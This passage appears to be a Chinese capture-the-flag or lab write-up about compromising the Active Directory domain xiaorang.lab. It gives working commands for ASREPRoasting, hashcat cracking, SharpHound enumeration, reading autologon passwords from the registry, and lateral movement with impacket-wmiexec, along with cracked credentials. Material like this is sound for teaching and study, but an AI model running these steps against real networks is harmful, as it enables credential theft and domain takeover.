    if usernames:
        print("\n提取的前5个用户名示例:")
        for i in range(min(5, len(usernames))):
            print(usernames[i])
    else:
        print("\n没有提取到任何用户名，请检查文件格式!")
```

利用获取到的用户进行ASREPRoast攻击。

> Kerberos认证协议的一个特性，枚举不要求Kerberos预身份验证的域用户(默认不关闭)，但是关闭了之后，就可以使用指定用户向域控制器的Kerberos 88端口请求票据，此时域控不会进行任何验证就将TGT和该用户Hash加密的Login Session Key 返回。进行离线破解，得到账户密码

```bash
impacket-GetNPUsers -dc-ip 172.22.6.12 -usersfile usernames.txt xiaorang.lab/
```



得到hash

```bash
$krb5asrep$23$zhangxin@XIAORANG.LAB:8f3e18c2b8cd843f2aeb7d6ff8d7dc4c$26e42387c6eb91347301ddd17ebd396e1bf4ff872d75407f9eb071d9e0bb7385ea91ebacd124c42a05f1ec0a1d38110d71f38c19bffd02b13c38f39605c67a4ee2f4de52131eefccfabe09920a57b559ff90d497443efff9afa5e9b4893c11ec949c018496341c2e3ba9a97da3ed40ee2b24fcb2dd040834317dd71f8b808e6542585aab3fffdb3d564934fdf9a470b7095bd74b6060dc203812f9fe173dab6ed6b01a4a3de9ff59c780ffbd9a8af5ff06cbaf304a5a754bf57e0b3f13475759288ed005e3d7a468f1ea218111079f9612bafae991edc654db5be4a4effe4259129c0753ac279e8306a4afda
```

用hashcat来破解，`.\hashcat -m 18200 1 -a 0 ./rockyou.txt  --force`

```bash
zhangxin@xiaorang.lab
strawberry
```



发现是域用户，进行域内信息收集，

```bash
cd C:\Users\zhangxin\Desktop
SharpHound.exe -c all
```

`query user`发现有其他用户会话



查询注册表看看存没存默认的用户密码

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

    DefaultUserName    REG_SZ    yuxuan
    DefaultPassword    REG_SZ    Yuxuan7QbrgZ3L
    DefaultDomainName    REG_SZ    xiaorang.lab
```

现在来看看域内信息图



> The user YUXUAN@XIAORANG.LAB has, in its SIDHistory attribute, the SID for the user ADMINISTRATOR@XIAORANG.LAB.userYUXUAN@XIAORANG.LAB 
>
> 在其 SIDHistory 属性中具有 theuserADMINISTRATOR@XIAORANG.LAB 的 SID。
>
> When a kerberos ticket is created for YUXUAN@XIAORANG.LAB, it will include the SID for ADMINISTRATOR@XIAORANG.LAB, and therefore grantYUXUAN@XIAORANG.LAB the same privileges and permissions asADMINISTRATOR@XIAORANG.LAB.为 YUXUAN@XIAORANG 
>
> 创建 kerberos 票证时。LAB 的 SID 中，它将包括 ADMINISTRATOR@XIAORANG 的 SID。LAB grantYUXUAN@XIAORANG asADMINISTRATOR@XIAORANG.LAB 具有相同的特权和权限。

也就是说我们现在手里的这个yuxuan用户是已经被SID History攻击过后的产物，他已经是域管理员了

登录yuxuan，看看用户组`whoami /groups`



直接横向即可

```bash
impacket-wmiexec XIAORANG/yuxuan:Yuxuan7QbrgZ3L@172.22.6.25 -codec gbk

impacket-wmiexec XIAORANG/yuxuan:Yuxuan7QbrgZ3L@172.22.6.12 -codec gbk
```

